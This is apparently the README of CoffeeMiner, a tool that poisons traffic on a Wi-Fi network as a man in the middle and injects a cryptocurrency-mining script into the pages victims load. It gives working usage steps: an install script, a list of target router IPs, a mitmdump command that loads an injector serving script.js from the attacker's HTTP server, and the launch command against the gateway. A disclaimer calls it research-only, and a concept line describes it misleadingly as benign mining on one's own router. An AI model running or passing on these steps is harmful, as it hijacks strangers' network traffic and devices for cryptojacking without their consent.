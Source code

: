 # CoffeeMiner

Collaborative (mitm) cryptocurrency mining pool in wifi networks

**Warning: this project is for academic/research purposes only.**

## Concept
- Creating a mining algo to run on your Lan network, and use your router to mine while you aren't using your internet


## Use
- install.sh
```
bash install.sh
```
- edit routersip.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```
![demo](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-demo-cutted.gif "demo")
